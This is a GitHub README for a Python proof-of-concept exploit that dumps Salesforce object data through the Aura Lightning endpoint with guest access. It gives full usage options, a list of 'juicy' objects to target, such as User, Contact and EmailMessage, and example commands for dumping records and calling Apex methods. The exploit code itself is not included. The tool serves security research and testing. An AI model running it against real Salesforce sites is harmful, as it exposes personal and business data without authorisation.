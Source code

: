# PoC for Salesforce lightning
***Academic purposes Only***. 


This tool dumps the data of Salesforce object through Aura lightning endpoint with the guest privilege.


雑なコードだけど許してくれい => I tried to address some of that


# Requirement
- Python3 

# Usage
```
$ python3 exploit.py -h
usage: exploit.py [-h] -u URL [-o [OBJECTS ...]] [-l] [-c] [-a AURA_ENDPOINT_CONFIG] [-r RECORD_ID] [-d] [-f] [-s] [-p] [-e] [-x]

Exploit Salesforce through the aura endpoint with the guest privilege

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     set the SITE url. e.g. http://url/site_path
  -o [OBJECTS ...], --objects [OBJECTS ...]
                        set the object name. Default value is "User" object. Juicy Objects:
                        Case,Account,User,Contact,Document,ContentDocument,ContentVersion,ContentBody,CaseComment,Note,Employee,Attachment,EmailMessage,CaseExternalDocument,Attachment,Lead,Name,EmailTemplate,EmailMessageRelation
  -l, --listobj         pull the object list.
  -c, --check           only check aura endpoint
  -a AURA_ENDPOINT_CONFIG, --aura_endpoint_config AURA_ENDPOINT_CONFIG
                        set your valid aura_endpoint_config
  -r RECORD_ID, --record_id RECORD_ID
                        set the recode id to dump the record
  -d, --dump_objects    dump a small number of objects accessible to guest users and saves them in the file.
  -f, --full            if set with -d, dump all pages of objects.
  -s, --skip            if set with -d, skip the objects already dumped.
  -p, --pull_custom_components
                        if set will load component definitions
  -e, --extract_apex_methods
                        Extracts Apex methods from custom components
  -x, --execute_apex    Calls an Apex Method. Details must be changed in exploit.py for now
```

# Examples 
```
# just list objects
$ python3 exploit.py -u https://domain.force.com/path/ -l

# show User and Account object
$ python3 exploit.py -u https://domain.force.com/path/ -o User Account

# save all objects(only page 1)
$ python3 exploit.py -u https://domain.force.com/path/ -d -s
```

# Reference
- Salesforce Lightning - An in-depth look at exploitation vectors for the everyday community
  - https://www.enumerated.de/index/salesforce
